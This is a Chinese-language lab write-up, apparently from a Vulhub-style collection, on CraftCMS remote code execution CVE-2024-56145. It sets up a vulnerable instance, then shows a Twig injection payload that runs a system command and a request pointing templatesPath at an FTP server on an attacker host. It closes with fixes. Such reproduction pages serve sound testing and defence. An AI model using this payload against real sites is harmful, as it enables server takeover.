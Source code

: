 # CraftCMS register_argc_argv 远程代码执行漏洞 CVE-2024-56145

## 漏洞描述

CraftCMS 是一个基于 PHP 的内容管理系统，用于构建网站和应用程序。

CraftCMS 5.5.2 和 4.13.2 之前的版本存在潜在的远程代码执行漏洞。当 PHP 环境启用 `register_argc_argv` 时，CraftCMS 会错误地从 HTTP 请求中读取配置项，攻击者可以使用 `--templatesPath` 控制模板文件，并利用模板注入导致任意代码执行。

参考链接：

- [https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9](https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9)
- [https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms](https://www.assetnote.io/resources/research/how-an-obscure-php-footgun-led-to-rce-in-craft-cms)

## 披露时间

2024-12-19

## 漏洞影响

```
5.0.0-RC1 <= Craft CMS < 5.5.2
4.0.0-RC1 <= Craft CMS < 4.13.2
```

## 环境搭建

Vulhub 执行以下命令启动一个 CraftCMS 5.5.1.1 服务器：

```
docker-compose up -d
```

服务器启动后，你可以在 `http://<your-ip>:8088/admin/install` 看到安装页面。请按照说明安装 CraftCMS，默认数据库地址为 `db`，用户名和密码均为 `root`。

![](images/CraftCMS%20register_argc_argv%20远程代码执行漏洞%20CVE-2024-56145/image-20250113150841735.png)

## 漏洞复现

要复现该漏洞，你需要准备一个包含以下内容的 `index.twig` 文件并放置在任意远程服务器上：

```html
{{ ['system', 'id'] | sort('call_user_func') | join('') }}
```

然后在 `index.twig` 文件所在的服务器中启动一个 FTP 服务器：

```shell
# 安装 pyftpdlib
pip install pyftpdlib

# 启动 FTP 服务器
python -m pyftpdlib -p 21212 -V
```

然后你可以通过发送以下请求来利用该漏洞：

```
http://<your-ip>:8088/?--templatesPath=ftp://<evil-ip>:21212/
```

![](images/CraftCMS%20register_argc_argv%20远程代码执行漏洞%20CVE-2024-56145/image-20250113151515486.png)

## 漏洞修复

1. 升级 Craft CMS 至安全版本。
2. 设置 register_argc_argv 为 off。
